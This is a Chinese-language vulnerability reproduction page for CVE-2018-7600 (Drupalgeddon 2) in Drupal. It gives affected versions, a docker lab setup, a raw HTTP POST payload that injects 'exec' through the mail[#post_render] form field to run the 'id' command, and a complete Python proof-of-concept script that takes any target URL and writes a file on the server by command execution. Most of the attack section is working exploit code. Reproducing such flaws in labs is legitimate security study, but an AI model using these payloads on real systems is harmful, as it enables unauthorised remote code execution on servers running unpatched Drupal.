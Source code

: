（CVE-2018-7600）Drupal Drupalgeddon 2 远程代码执行漏洞
=======================================================

一、漏洞简介
------------

Drupal是Drupal社区所维护的一套使用PHP语言开发的免费，开源的内容管理系统。版本受到影响：Drupal7.58之前的版本，8.3.9之前的8.x版本，8.4.6之前的8.4.x版本，8.5.1之前的8.5.x版本。

二、漏洞影响
------------

Drupal7.58之前的版本，8.3.9之前的8.x版本，8.4.6之前的8.4.x版本，8.5.1之前的8.5.x版本。

三、复现过程
------------

### 漏洞环境

执行如下命令启动drupal 8.5.0的环境：

    docker-compose up -d

环境启动后，访问`http://your-ip:8080/`将会看到drupal的安装页面，一路默认配置下一步安装。因为没有mysql环境，所以安装的时候可以选择sqlite数据库。

### 漏洞复现

参考[ianxtianxt/CVE-2018-7600](https://github.com/ianxtianxt/CVE-2018-7600)，我们向安装完成的drupal发送如下数据包：

    POST /user/register?element_parents=account/mail/%23value&ajax_form=1&_wrapper_format=drupal_ajax HTTP/1.1
    Host: your-ip:8080
    Accept-Encoding: gzip, deflate
    Accept: */*
    Accept-Language: en
    User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
    Connection: close
    Content-Type: application/x-www-form-urlencoded
    Content-Length: 103

    form_id=user_register_form&_drupal_ajax=1&mail[#post_render][]=exec&mail[#type]=markup&mail[#markup]=id

成功执行代码，这个代码最终执行了id命令：

![](/Users/aresx/Documents/VulWiki/.resource/(CVE-2018-7600)DrupalDrupalgeddon2远程代码执行漏洞/media/rId27.png)

### **exploit.py**

    #!/usr/bin/env python3
    import sys
    import requests

    print ('################################################################')
    print ('# Proof-Of-Concept for CVE-2018-7600')
    print ('# by Vitalii Rudnykh')
    print ('# Thanks by AlbinoDrought, RicterZ, FindYanot, CostelSalanders')
    print ('# https://github.com/a2u/CVE-2018-7600')
    print ('################################################################')
    print ('Provided only for educational or information purposes\n')

    target = input('Enter target url (example: https://domain.ltd/): ')

    # Add proxy support (eg. BURP to analyze HTTP(s) traffic)
    # set verify = False if your proxy certificate is self signed
    # remember to set proxies both for http and https
    # 
    # example:
    # proxies = {'http': 'http://127.0.0.1:8080', 'https': 'http://127.0.0.1:8080'}
    # verify = False
    proxies = {}
    verify = True

    url = target + 'user/register?element_parents=account/mail/%23value&ajax_form=1&_wrapper_format=drupal_ajax' 
    payload = {'form_id': 'user_register_form', '_drupal_ajax': '1', 'mail[#post_render][]': 'exec', 'mail[#type]': 'markup', 'mail[#markup]': 'echo ";-)" | tee hello.txt'}

    r = requests.post(url, proxies=proxies, data=payload, verify=verify)
    check = requests.get(target + 'hello.txt', proxies=proxies, verify=verify)
    if check.status_code != 200:
      sys.exit("Not exploitable")
    print ('\nCheck: '+target+'hello.txt')

参考链接
--------

> https://vulhub.org/\#/environments/drupal/CVE-2018-7600/
